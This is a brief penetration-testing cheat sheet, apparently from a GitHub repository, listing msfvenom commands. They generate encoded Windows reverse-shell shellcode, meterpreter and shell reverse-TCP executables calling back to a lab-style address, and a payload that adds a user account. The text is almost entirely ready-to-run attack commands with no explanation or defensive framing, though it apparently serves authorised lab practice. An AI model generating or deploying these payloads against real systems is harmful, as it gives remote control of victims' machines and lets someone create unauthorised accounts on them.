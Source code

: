 ### Generate a windows Reverse Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.xxx LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"
```

### Generate a windows reverse shell payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.xxx LPORT=4444 -f exe > binary.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.xxx LPORT=4444 -f exe > binary2.exe
```

### Create User

```
msfvenom -p windows/adduser USER=username PASS=password -f exe > adduser.exe
```

